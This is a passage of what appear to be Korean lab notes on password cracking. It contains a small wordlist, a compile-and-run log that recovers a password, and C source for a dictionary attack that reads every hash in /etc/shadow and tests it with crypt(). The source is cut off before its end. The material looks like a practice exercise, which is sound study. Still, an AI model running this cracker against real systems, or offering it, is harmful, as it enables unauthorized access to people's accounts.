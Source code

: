 ```
        return 0;
}

```

[root@Linux-11 바탕화면]# vim dict.txt

```
keroro2424.
h0t$ix
qwer1234
1q2w3e4r%T
1
password
P@ssw0rd

```

[root@Linux-11 바탕화면]# gcc -o pass_dic pass_dic.c -lcrypt
[root@Linux-11 바탕화면]# ./pass_dic
Key is : keroro2424.





[root@Linux-11 바탕화면]# vim pass_dic2.c -> 전체 계정에 대한 페스워드

```
#include <stdio.h>
#include <string.h>
#include <crypt.h>

#define BUF_SIZE 512

int main()
{
        FILE *fpshadow = NULL, *fpwordlist = NULL;
        char pshadow[BUF_SIZE], ppass[BUF_SIZE], pword[BUF_SIZE];
        char *p, *presult, *phash;

        fpshadow = fopen("/etc/shadow", "r");
        if(fpshadow == NULL) { return -1; }

        while(fgets(pshadow, BUF_SIZE, fpshadow) != NULL)
        {
                if(!strchr(pshadow, '$'))
                {
                        continue;
                }
                p = strtok(pshadow, ":");
                p = strtok(NULL, ":");
                strcpy(ppass, p);
                fpwordlist = fopen("dict.txt", "r");
                if(fpwordlist == NULL) { return -1; };
                while(fgets(pword, BUF_SIZE, fpwordlist) != NULL)
                {
                        p = strtok(pword, "\n");
                        presult = crypt(p, ppass);
                        if(!strcmp(ppass, presult))
                        {
                                printf("%s:%s\n", pshadow, ppass);
                                printf("Password is %s\n", p);
                        }
                }
                fclose(fpwordlist);
        }
        fclose(fpshadow);
```